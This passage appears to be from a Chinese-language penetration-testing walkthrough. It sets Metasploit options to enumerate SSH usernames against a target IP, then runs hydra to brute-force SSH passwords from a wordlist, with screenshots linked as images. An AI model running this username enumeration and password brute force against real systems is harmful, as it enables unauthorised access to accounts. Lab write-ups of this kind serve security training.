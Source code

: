 * set rhosts <target_IP>
* set user_file <username字典檔>
* set check_false true
![image](images/H18x2s0Ua.png)

* exploit
* ![image](images/Sk3MniCU6.png)

取得username之後，使用hydra來實施爆破
```
hydra ssh://<IP> -l <username> -P <Password 字典檔>
```
![image](images/By_ly20Up.png)
